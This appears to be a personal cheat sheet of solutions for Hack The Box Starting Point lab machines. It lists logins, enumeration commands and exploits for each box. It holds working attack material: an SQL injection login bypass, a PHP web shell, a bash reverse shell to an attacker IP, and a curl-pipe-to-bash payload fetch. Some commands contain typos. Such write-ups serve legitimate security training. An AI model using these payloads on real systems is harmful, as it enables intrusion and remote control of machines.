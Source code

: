 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three  
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/subdomains-top1million-5000.txt  
gobuster vhost -w ./subdomains-top1million5000.txt -u http://thetoppers.htb  
yields "s3".thetopppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb  
echo '<?php system($_GET["cmd"]); ?>' > shell.php  
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb  
http://thetoppers.htb/shell.php?cmd=id  
create shell.sh  
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000  
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash  

### Ignition
http://ignition.htb/admin
admin:qwerty123

### Bike
SSTI send {{7+7}}  BURP repeater to ahve "Handlebars" provide data  

### Pennyworth
Jenkins/Groovy script for a reverse shell

### Tactics
SMB share, retrieve flag.txt  

# TIER 2
### Oopsie
[HTB write up](/writeups/oopsie.pdf)  
php upload a reverse shell, SUID escalation due to group membership

